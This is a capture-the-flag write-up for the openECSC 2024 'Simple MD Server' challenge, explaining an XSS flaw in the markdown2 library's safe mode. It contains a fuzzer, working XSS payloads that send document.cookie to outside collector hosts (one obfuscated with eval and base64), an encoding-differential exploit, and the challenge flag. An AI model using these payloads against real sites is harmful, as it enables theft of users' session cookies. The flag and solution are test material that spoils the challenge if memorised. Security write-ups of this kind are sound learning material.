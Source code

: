 #md #xss #fuzzer #charset 
# ecsc24 - Simple MD Server
## Description
Yes, another markdown editor, but this time we keep it simple!
Site: [http://simplemdserver.challs.open.ecsc2024.it:47008](http://simplemdserver.challs.open.ecsc2024.it:47008)
## Overview
Classic notes app, supports markdown.
## Road to flag
The flag is inside admin bot's cookies:
```js
r = requests.post(
	BOT_HOST,
	headers={"X-Auth": BOT_SECRET},
	json={
		"actions": [
			{
					"type": "request",
					"url": CHALL_HOST,
			},
			{
					"type": "set-cookie",
					"name": "flag",
					"value": FLAG,
			},
			{
					"type": "request",
					"url": visit_url,
			},
		]
	},
)
```
-> XSS

## Exploit
I just fuzzed the markdown parser:
```python
import markdown2
import random
from bs4 import BeautifulSoup

def generate_random_md(codes):
    random_md = []
    length = random.randint(1, 50)
    payload = "//onerror=fetch(\"http://g106vnrl.requestrepo.com/?c=\"+document.cookie)"

    for i in range(length):
        random_index = random.randint(0, len(codes) - 1)
        if i == 0:
            random_md.append(codes[random_index].format(p=payload))
        else:
            random_md.append(codes[random_index].format(p=random_md[-1]))

    return ' '.join(random_md)


def check_for_unusual_attributes(element):
    usual_attributes = ['alt','src','href','title']
    found_attributes = set()
    soup = BeautifulSoup(element, 'html.parser')

    for tag in soup.find_all(True):
        for attr in tag.attrs:
            if attr not in usual_attributes:
                found_attributes.add(attr)
    
    return found_attributes

def start_fuzzing():
    codes = ["[{p}]({p})","https://x.com/?{p}","id=1","({p})","![{p}]({p})","`{p}`","*{p}*","> {p}","__{p}__",
    "# {p}","- {p}","[{p}]:","{p}\n-------------","> 1. {p}","[{p}][]\n[{p}]: http://{p}","![{p}][]\n[{p}]: http://{p}? \"{p}\"", "<p>{p}</p>", "<svg>"]

    try:
        while True:
            random_md = generate_random_md(codes)
            html = markdown2.markdown(random_md, safe_mode="escape")
            unusual_attributes = check_for_unusual_attributes(html)
            if unusual_attributes:
                print('Generated BBCode:', random_md)
                print('Unusual attributes found:', unusual_attributes)
                with open("payload.txt","w") as file:
                    file.write(random_md)
                break 
    except:
        pass

if __name__ == "__main__":
    start_fuzzing()
```
And came up with:
```
![](`" onerror=alert()//`)
```
Why this works? The library inserts code blocks into img `src` attribute, and does not escape quotes in `code` blocks.

`openECSC{K33P_I7_51Mple____?}`


#### Intended solution
The intended solution leverages [encoding differentials](<TL;DR: https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/>)
```
payload = URL + '/preview?x=aaa%1B(Baaaaa' + 'a%1B$@!2%1B(B' * 200 + f'''aaaaa%1B(B ![img%1B$@!](file://a)%1B(B ![red]( onerror=location.assign('{hook_url}?'%26%2343;document.cookie) )wwwww'''

// or

JS = "fetch('https://pwn.requestcatcher.com/pwn?' + document.cookie); while(1);"
JS = f"eval(atob('{base64.b64encode(JS.encode()).decode()}'))"

PAYLOAD = b"[\x1b(B](pwn '\x1b$@')[pwn]( url#= ' autofocus onfocus=" + JS.encode() + b"//')"
```
